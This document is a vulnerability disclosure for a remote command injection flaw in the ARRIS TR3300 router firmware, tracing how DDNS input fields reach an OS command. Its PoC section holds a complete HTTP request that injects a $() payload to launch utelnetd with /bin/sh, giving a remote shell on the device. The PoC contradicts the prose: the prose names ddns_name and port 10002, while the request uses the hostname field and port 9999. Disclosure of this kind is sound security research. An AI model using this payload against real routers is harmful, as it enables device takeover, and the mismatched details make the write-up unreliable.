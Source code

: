 # ARRIS Vulnerability

Vendor:ARRIS

Product:TR3300

Version:1.0.13(Download Link:https://arris.secure.force.com/consumers/ConsumerProductDetail?p=a0ha000000OlZ68AAF&c=SURFboard%20Routers)

Type:Remote Command Execution

Author:Jiaqian Peng

Institution:pengjiaqian@iie.ac.cn



## Vulnerability description

We found an Command Injection vulnerability  in ARRIS router with firmware which was released recently, allows remote attackers to execute arbitrary OS commands from a crafted request.

**Remote Command Execution**

In `setup.cgi` binary:

In the router's `ddns` function(`ddns.html`), `ddns_name、ddns_pwd、h_ddns、ddns_host` is directly passed by the attacker, so we can control the `ddns_name、ddns_pwd、h_ddns、ddns_host` to attack the OS.

<div  align="center"><img src="./images/1.png" style="zoom:80%;" /></div>

First, accept and process the content of the field(`ddns_user_name、ddns_password、ddns_service_provider、ddns_host_name`), and then call the function `nvram_set `to store this input.

<div  align="center"><img src="./images/2.png" style="zoom:80%;" /></div>

In `rc_apps` binary:

Eventually, in `sub_41E880` function, the initial input will be extracted and cause command injection.

<div  align="center"><img src="./images/3.png" style="zoom:80%;" /></div>

<div  align="center"><img src="./images/4.png" style="zoom:80%;" /></div>

**Supplement**

BUT!!!!!

<div  align="center"><img src="./images/5.png" style="zoom:80%;" /></div>

<div  align="center"><img src="./images/6.png" style="zoom:60%;" /></div>

**When receiving user input, there are very strict checks. But we can use `$()`  to bypass it!**

In order to avoid such problems, we believe that the string content should be checked in the input extraction part.

<div  align="center"><img src="./images/7.png" style="zoom:80%;" /></div>



## PoC

We set `ddns_name` as **$(/usr/sbin/utelnetd -l /bin/sh -p 10002)**, and the router will excute it,such as:

```http
POST /setup.cgi HTTP/1.1
Host: 192.168.1.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 378
Origin: http://192.168.1.1
Connection: close
Referer: http://192.168.1.1/wan_dyna.html
Upgrade-Insecure-Requests: 1

dhcpc_enable=&hostname=$(/usr/sbin/utelnetd -l /bin/sh -p 9999)&dyna_mtu=1500&itsbutton1=Apply&webpage=wan_dyna.html&action=Apply&wan_access=eth1&wan_proto=dhcp&et1macaddr=00%3A30%3ABD%3AF6%3AEE%3A94&m_wan_hostname=TR3300&m_autodns=1&pppoe_autodns=1&dhcp_autodns=1&m_wan_aliasip=&todo=save&h_dhcpc_enable=enable&todo=save&this_file=wan_dyna.html&next_file=wan_dyna.html&message=
```

<div  align="center"><img src="./images/8.png" style="zoom:80%;" /></div>



## Result

Get a shell!

<div  align="center"><img src="./images/9.png" style="zoom:80%;" /></div>
